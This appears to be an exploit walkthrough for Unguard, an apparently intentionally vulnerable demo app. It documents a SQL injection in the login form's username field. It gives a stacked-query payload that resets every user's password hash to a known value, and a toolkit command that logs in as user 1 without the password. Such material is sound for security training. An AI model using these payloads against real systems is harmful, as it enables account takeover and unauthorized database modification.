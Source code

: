 # SQL Injection

Utilizing [SQL injection](https://owasp.org/www-community/attacks/SQL_Injection) can lead to sensitive data being read
and/or databases to be modified (Insert/Update/Delete).
In addition, administrative operations such as shutting down the DBMS can also be completed.

Unguard provides the functionality to log in with a username and password.
As the username is not correctly sanitized before being inserted into an SQL statement, it is possible to insert SQL commands
that will then be run.
The database configuration is set to allow multiple statements to be executed for one query command divided by semicolon.


## Preconditions and Requirements

For this exploit to work you need:

* [unguard](../../../docs/DEV-GUIDE.md) deployed and running
* (optional) [unguard-exploit-toolkit](../../INSTALL.md) set up

## Exploitation

To inject an SQL command, you simply need to open the login page of Unguard. For username insert
SQL statements which need to be properly prepared (see the next chapter "w/o Toolkit CLI").

### w/o Toolkit CLI

SQL injections are possible via the frontend. As mentioned before, you can use the username and password on the login page
to execute SQl code.

An example for an SQL statement to run:

```sql
UPDATE users
SET password_hash='$2b$10$oYZ0GWhlnYQXgqtf2N24oeXE6JZ4WMNPt8yKCfaLpJAOqaKKyrjda'
WHERE 1 = 1;
```

This will set every user's password to 'password'.

To have this executed on the database, you need to modify put the following text to the username:
```
"; UPDATE users SET password_hash="$2b$10$oYZ0GWhlnYQXgqtf2N24oeXE6JZ4WMNPt8yKCfaLpJAOqaKKyrjda" WHERE 1 = 1; #
```


### With Toolkit CLI

Using the `ug-exploit` tool, SQL statements can be injected.
Use `ug-exploit sql-inject-login` to log in as the user with the ID 1 without knowing the password using SQL injection.

You can additionally define a SQL statement to be injected before the login. In this example, your input would just need to be:

```sql
UPDATE users
SET password_hash='$2b$10$oYZ0GWhlnYQXgqtf2N24oeXE6JZ4WMNPt8yKCfaLpJAOqaKKyrjda'
WHERE 1 = 1;
```

## Further Details

* [SQL Injection - OWASP](https://owasp.org/www-community/attacks/SQL_Injection)
